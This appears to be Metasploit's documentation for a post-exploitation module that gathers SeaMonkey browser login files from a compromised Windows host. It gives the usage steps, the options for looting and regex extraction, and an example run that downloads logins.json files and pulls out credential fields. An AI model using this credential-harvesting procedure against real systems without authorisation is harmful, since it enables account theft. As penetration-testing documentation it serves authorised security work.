 ## Module Description

This post-exploitation module gathers artifacts found on seamonkey related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/seamonkey
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/seamonkey) > run 



[*] Seamonkey's parent folder found
[*] Seamonkey's Logins.json file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\r68nu6yz.default-release\logins.json
[*] Seamonkey Logins.json downloaded
[+] File saved to:  /root/.msf4/loot/20210521112655_default_192.168.56.106_seamonkeylogins._241786.bin

[+] ['hostname']:  https://login.live.com

[+] ['usernameField']:  loginfmt

[+] ['passwordField']:  passwd

[+] ['encryptedUsername']:  **************************************************************==

[+] ['encryptedPassword']:  **************************************************************

[+] File with data saved:  /root/.msf4/loot/20210521112655_default_192.168.56.106_EXTRACTIONSlogin_914205.bin
[*] Downloading C:\Users\IEUser\AppData\Roaming\Mozilla\SeaMonkey\Profiles\ovqvptq0.default\logins.json
[*] Seamonkey Logins.json downloaded
[+] File saved to:  /root/.msf4/loot/20210521112655_default_192.168.56.106_seamonkeylogins._569684.bin

[+] ['hostname']:  https://login.live.com

[+] ['usernameField']:  loginfmt

[+] ['passwordField']:  passwd

[+] ['encryptedUsername']:  **************************************************************==

[+] ['encryptedPassword']:  **************************************************************

[+] File with data saved:  /root/.msf4/loot/20210521112656_default_192.168.56.106_EXTRACTIONSlogin_379436.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
```
